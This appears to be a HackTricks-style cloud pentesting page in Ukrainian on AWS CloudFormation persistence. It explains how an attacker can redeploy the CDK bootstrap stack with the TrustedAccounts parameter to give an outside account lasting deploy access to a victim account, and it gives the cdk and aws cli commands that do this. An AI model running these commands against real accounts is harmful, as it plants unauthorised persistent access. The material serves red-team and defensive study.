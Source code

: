 # AWS - Cloudformation Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFormation

Для додаткової інформації дивіться:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK розгортає CFN стек під назвою `CDKToolkit`. Цей стек підтримує параметр `TrustedAccounts`, який дозволяє зовнішнім акаунтам розгортати CDK проєкти в обліковому записі жертви. Зловмисник може зловживати цим, щоб надати собі безстроковий доступ до облікового запису жертви, або використовуючи AWS cli для повторного розгортання стека з параметрами, або AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../../banners/hacktricks-training.md}}
